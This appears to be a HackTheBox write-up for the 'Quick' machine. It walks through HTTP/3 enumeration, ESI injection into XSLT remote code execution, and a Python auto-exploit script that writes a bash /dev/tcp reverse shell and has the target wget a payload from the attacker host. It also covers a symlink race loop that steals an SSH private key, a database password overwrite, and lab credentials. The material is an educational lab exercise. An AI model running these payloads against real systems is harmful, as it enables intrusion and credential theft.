

Quick gave me the chance to improve my code analysis skills, mainly in php code. Awesome done, very well thinked. The http3 part I've never seen before, had the chance to learn many new things.

The first shell is with a esi exploitation, then you need to route a new website running locally and get the creds in a mysql instance, after that you need to exploit another vuln in a printer service in order to get the ssh priv key, the root was the hardest part, in my opinion pure CTF, but the whole box was awesome.

The first shell to sam is in the body of the post.

Hope you enjoy!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.186
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 9001

We try to open it on the browser


Seems to be a simple php page.

1 - clients.php
2 - login.php.
3 - There is a link to https://portal.quick.htb

Gobuster with -x php, once I know that it's php page

```sh
gobuster dir -u http://10.10.10.186:9001 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 30
```


### /login.php

Just login page


### /clients.php

Just clients page


## QUIC

When you access the main page, you get an error message. Very interesting

"You might experience some connectivity issues during portal access which we are aware of and working on designing client application to provide better experience for our users. Till then you can avail our services from Mobile App"


We add the portal.quick.htb to our /etc/hosts


Due to the name of the box, we researched QUIC and found it's using port 443 UDP, no let's nmap it

```sh
nmap -sU -p 443 10.10.10.186
```

And it's possible open!


Spent a little more time of research and fount HTTP/3 - Hypertext Transfer Protocol (HTTP) over QUIC - And this [blog](https://faun.pub/implementing-http3-quic-nginx-99094d3e39f?gi=eb8163e13447) teaching how to implement/attack this thing and this [docker](https://hub.docker.com/r/ymuski/curl-http3) with curl http3, which we need to make this box.

### Docker Container

So, we start a docker container to do not damage our system with other libraries to curl

```sh
service docker start
docker run -it 'ymuski/curl-http3' bash
```


Now we could start playing with http3

```sh
curl --http3 https://10.10.10.186
```


Docs seems to be the most interesting, let's check this one out first.

Listing the documents:

```sh
curl --http3 https://10.10.10.186/index.php?view=docs
```


Let's download them

```sh
curl --http3 https://10.10.10.186/docs/QuickStart.pdf --output QuickStart.pdf
curl --http3 https://10.10.10.186/docs/Connectivity.pdf --output Connectivity.pdf
```


Now we copy to our kali, to read then

```sh
docker ps
docker cp wizardly_dewdney:/opt/Connectivity.pdf .
docker cp wizardly_dewdney:/opt/QuickStart.pdf .
```


On Connectivity.pdf we found a password


**Quick4cc3$$**

### Login Elisa

If we remember, on the page we see the following information

```
Tim (Qconsulting Pvt Ltd)
Roy (DarkWng Solutions)
Elisa (Wink Media)
James (LazyCoop Pvt Ltd)
```

So we can "presume" that the e-mails are going to be:

This is from the name, country and company they work

```
tim@qconsulting.co.uk
roy@darkwing.us
elisa@wink.co.uk
james@lazycoop.cn
```

So, let's make a wfuzz to try to get something new

It’s important to visit the site at quick.htb and not by IP, as some functionality breaks otherwise. (add at /etc/hosts)


So, let's go

```sh
wfuzz -X POST -u quick.htb:9001/login.php -d 'email=FUZZ&password=Quick4cc3$$' -w mail.txt
```


Awesome, we got one working...

`elisa@wink.co.uk:Quick4cc3$$`

So, we login on the page with the credentials


The only thing useful here is that we can send tickets to the server

We try to send one to the server to see how is the query


We receive a popup


And we see the data we send and receive on burp


We search for our ticket


## Esigate

Onde the responses we see a very interesting thing

`X-Powered-By: Esigate`


After some researching we found this [blog](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) which explains how the ESI works, and how we can abuse it.

In short, on the blog we have:

```html
<body>
  <b>The Weather Website</b>
  Weather for <esi:include src="/weather/name?id=$(QUERY_STRING{city_id})" />
  Monday: <esi:include src="/weather/week/monday?id=$(QUERY_STRING{city_id})" />
  Tuesday: <esi:include src="/weather/week/tuesday?id=$(QUERY_STRING{city_id})" />
```

Brwoser caching device would cache the page just like this. And when someone requests the page, it will replace the <esi:include> tags by making the necessary calls itself. Attacker can submit something that will be processed by the server, and result in an ESI tag included in the response, the browser will make the requests the attacker wants, you can use it to bypass XSS filters, SSRF and the blog also shows a XLST to get RCE, is what we will try now.

### PoC

Now I need to imagine where will be the place I'll inject my payload. I got two options, on the ticked id, because it spawns an alert message on my screen or on the values I passed on the burp request.

I'll create a poc.html

```html
<b>PoC test</b>
```

I always like to use `python3 -m http.server 80` to host my web server during my pentests, but sometimes it does not work properly, as in this case. I didn’t want Apache to send 304 responses (content not modified), so I disabled that by putting the following at the bottom of /etc/apache2/apache2.conf


When we try to start apache2 we got errors, the solution is [here](https://ycsoftware.net/invalid-command-requestheader-perhaps-misspelled-or-defined-by-a-module/)


Now we start apache and see the last lines of the log, to see in real time the server trying to reach it

```sh
tail -f /var/log/apache2/access.log | cut -d' ' -f-9
```


Now I send the ticket

```
title=test&msg=test&id=TKT-3333<esi:include src="http://10.10.14.20/poc.html" />
```


And the response get back on my apache2 server


It's working!


Now, let's hunt RCE

### XSLT to RCE POC

According to the post, the tag we need to use is this

```
<esi:include src="http://localhost/" stylesheet="http://10.10.14.20/esi.xsl"> </esi:include>
```

esi.xsl contains Java to run a command. I'll ping and listen with tcpdump:

esi.xsl

```xsl
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[ping -c 5 10.10.14.20]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

Then I send the poc

```
title=0x4rt3mis&msg=Describe+your+query&id=TKT-1234;<esi:include src="http://localhost/" stylesheet="http://10.10.14.20/esi.xsl"> </esi:include>
```


And we get the ping back


## Reverse Shell

To get a reverse shell I needed to make it in two stages. We got so many errors and bad chars with the reverse shells one liner.

I created two xsl files, one is to download the malicious bash file, other is just to execute it on the server


Great. It'll download the malicious shell file and after execute it on the server


Repeater

```
title=0x4rt3mis&msg=Describe+your+query&id=TKT-1111;<esi:include src="http://localhost/" stylesheet="http://10.10.14.20/shell_download.xsl"> </esi:include>
```


And executed

```
title=0x4rt3mis&msg=Describe+your+query&id=TKT-1112;<esi:include src="http://localhost/" stylesheet="http://10.10.14.20/shell_execute.xsl"> </esi:include>
```


Sure! Let's automate the whole things now!

# Sam Auto Shell

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Shell - Quick - HackTheBox

import argparse
import requests
import sys
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import os
import random

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    cleanUp(nameone,nametwo,nameshell)
    print("[+] Shell'd [+]")
    t.interact()
  
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()
    
# Let's login on the page
def loginSite(rhost):
    print("[+] Let's login!! [+]")
    url = "http://%s:9001/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"email": "elisa@wink.co.uk", "password": "Quick4cc3$$"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Looogged in !! [+]")
    
# Let's create the sh malicious file    
def createShellPayload(lhost,lport,nameshell):
    print("[+] Let's create our shell payload !! [+]")
    payload = "#!/bin/sh\n"
    payload += "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    h = open("%s" %nameshell, "w")
    h.write(payload)
    h.close()
    print("[+] Done, shell file created !! [+]")
    
# Let's create the staged files to get the reverse shell
def createPayload(lhost,nameone,nametwo,nameshell):
    print("[+] Let's create the malicious files to get reverse shell !! [+]")
    print("[+] %s is the shell file ! [+]" %nameshell)
    print("[+] %s is the stage one file ! [+]" %nameone)
    print("[+] %s is the stage two file ! [+]" %nametwo)
    # Create the reverse shell
    payload = '<?xml version="1.0" ?>\n'
    payload += '<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">\n'
    payload += '<xsl:output method="xml" omit-xml-declaration="yes"/>\n'
    payload += '<xsl:template match="/"\n'
    payload += 'xmlns:xsl="http://www.w3.org/1999/XSL/Transform"\n'
    payload += 'xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">\n'
    payload += '<root>\n'
    payload += '<xsl:variable name="cmd"><![CDATA[wget http://%s/%s -O /tmp/shell.sh]]></xsl:variable>\n' %(lhost,nameshell)
    payload += '<xsl:variable name="rtObj" select="rt:getRuntime()"/>\n'
    payload += '<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>\n'
    payload += 'Process: <xsl:value-of select="$process"/>\n'
    payload += 'Command: <xsl:value-of select="$cmd"/>\n'
    payload += '</root>\n'
    payload += '</xsl:template>\n'
    payload += '</xsl:stylesheet>\n'
    f = open("%s" %nameone, "a")
    f.write(payload)
    f.close()
    payload1 = '<?xml version="1.0" ?>\n'
    payload1 += '<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">\n'
    payload1 += '<xsl:output method="xml" omit-xml-declaration="yes"/>\n'
    payload1 += '<xsl:template match="/"\n'
    payload1 += 'xmlns:xsl="http://www.w3.org/1999/XSL/Transform"\n'
    payload1 += 'xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">\n'
    payload1 += '<root>\n'
    payload1 += '<xsl:variable name="cmd"><![CDATA[bash /tmp/shell.sh]]></xsl:variable>\n'
    payload1 += '<xsl:variable name="rtObj" select="rt:getRuntime()"/>\n'
    payload1 += '<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>\n'
    payload1 += 'Process: <xsl:value-of select="$process"/>\n'
    payload1 += 'Command: <xsl:value-of select="$cmd"/>\n'
    payload1 += '</root>\n'
    payload1 += '</xsl:template>\n'
    payload1 += '</xsl:stylesheet>\n'
    f = open("%s" %nametwo, "a")
    f.write(payload1)
    f.close()
    print("[+] Files Created !!! [+]")

# Let's trigger the reverse shell
def triggerPay(rhost,lhost,nameone,nametwo):
    print("[+] Enjoy your reverse shell !! [+]")
    url = "http://%s:9001/ticket.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    # Send the malicious download
    ticket1 = random.randint(1000,2000)
    data = {"title": "0x4rt3mis", "msg": "Describe your query", "id": "TKT-%s;<esi:include src=\"http://localhost/\" stylesheet=\"http://%s/%s\"> </esi:include>" %(ticket1,lhost,nameone)}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    os.system("sleep 5")
    # Trigger the reverse shell
    ticket2 = random.randint(1000,2000)
    data = {"title": "0x4rt3mis", "msg": "Describe your query", "id": "TKT-%s;<esi:include src=\"http://localhost/\" stylesheet=\"http://%s/%s\"> </esi:include>" %(ticket2,lhost,nametwo)}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    
# Cleaning up
def cleanUp(nameone,nametwo,nameshell):
    os.system("rm %s" %nameone)
    os.system("rm %s" %nametwo)
    os.system("rm %s" %nameshell)    
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-p', '--port', help='Local port to receive the shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.port
    
    global nameone
    global nametwo
    global nameshell
    nametwo = random.randint(3000,4000)
    nameone = random.randint(3000,4000)
    nameshell = random.randint(3000,4000)

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Login on the page
    loginSite(rhost)
    # Create the payloads
    createShellPayload(lhost,lport,nameshell)
    createPayload(lhost,nameone,nametwo,nameshell)
    # Trigger the reverse shell
    triggerPay(rhost,lhost,nameone,nametwo)

if __name__ == '__main__':
    main()
```

# Sam --> srvadm

We see that the box has two users


We add a ssh key to the server, to better manage it

```sh
ssh-keygen -t ed25519 -f 0x4rt3mis
```


Add to authorized_keys


Now, just ssh on the box


We look at `/etc/apache2/sites-enabled/000-default.conf` apache conf file and found on server running port 80, is the printerv2.quick.htb


Let's forward this port with `ssh -L 5555:127.0.0.1:80 sam@10.10.10.186 -i /tmp/0x4rt3mis` Then let's add printerv2.quick.htb to my local host file pointing to 127.0.0.1.


We see other web page!


Login page


Ok, but we still don't have creds

We found the db.php on /var/www/printer


We log on the mysql instance

```sh
mysql -u db_adm -D quick -p 
show tables;
select * from users;
```


We get the creds from the user


We should try to get this password. But how we have access to the database, we can change it's password

I put the same as elise because it's easy, in the end to cover the tracks we should change it again

```sh
update users set password = 'c6c35ae1f3cb19438e0199cfa72a9d9d' where name='Server Admin';
```


Now we can login on the new website with the creds

`srvadm@quick.htb:Quick4cc3$$`


Seems to be a printer service


We add printers to point out our ip address


When we click to print


We receive a connection on nc


We get the jobs.php file, it's the file which process the printer query


Line 8, test if you are logged, line 10, if you click "submit".

The most interesting part is this

```php
file_put_contents("/var/www/jobs/".$file,$_POST["desc"]);
chmod("/var/www/printer/jobs/".$file,"0777");
sleep(0.5); //Buffer for socket check
$printer = new Printer($connector);
$printer -> text(file_get_contents("/var/www/jobs/".$file));
$printer -> cut();
$printer -> close();
unlink("/var/www/jobs/".$file);
```

What it does? Filename is current timestamp, set the content in the file, sleep, read and send to the printer and delete the file.
`file_get_contents` and `file_put_contents` will follow symlinks

Insight get from snowscan

```
The race condition vulnerability here is the sleep(0.5) delay that was added. Because the print job file is modifiable by anyone (chmod 0777), it’s possible to swap the file by a symlink before the rest of the code reads the content. In other words, we can read or write any file as user srvadm
```

Again with help of **0xdf** blog, we get the code that will retrieve me de the private ssh key from the user

```
This loop is constantly listing the files in jobs. For each file, if it can read the file (ie, it’s the one created by the printer PHP page), it deletes it and creates a symlink to what I hope is a private key in srvadm's home directory.
```

```sh
while true; do for fn in *; do if [[ -r $fn ]]; then rm -f $fn; ln -s /home/srvadm/.ssh/id_rsa $fn; fi; done; done
```

We set the loop


Assign a new job


And get the ssh private key


Now, just ssh in


# srvadm --> Root

This part was really trickly

In /home/srvadm/.cache/conf.d/printers.conf there's a section with a DeviceURI:


After URL decode it, we have


`&ftQ4K3SGde8?`

That's the root password


# Source Code Analysis

We get the web source code from the box


We see the script.php which trigger the XSS

It just put on the tag `<script>` what is being passed as id value. Without any kind of sanitization.


The jobs.php we already have analysed it in the post. Very useful to know this kind of stuff when dealing with php applications.

Awesome box, sometimes very hard, but well done!